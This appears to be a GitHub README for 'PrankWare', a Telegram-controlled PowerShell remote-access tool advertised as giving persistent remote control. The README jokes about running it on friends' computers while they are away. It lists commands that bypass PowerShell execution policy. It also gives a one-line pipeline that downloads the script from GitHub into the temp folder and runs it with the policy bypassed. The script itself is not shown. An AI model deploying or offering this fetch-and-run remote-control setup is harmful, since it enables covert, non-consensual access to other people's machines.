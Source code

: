 # Telegram-Controlled PowerShell Script


Get a persistence remote control access through telegram commands. Don't use it when ur friends are away from their computer 🤫

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
## Powershell pipeline
```
iwr 'https://raw.githubusercontent.com/xtofuub/PrankWare/main/prankware.ps1' -UseBasicParsing -OutFile "$env:TEMP\prankware.ps1"; powershell -ep bypass -File "$env:TEMP\prankware.ps1"
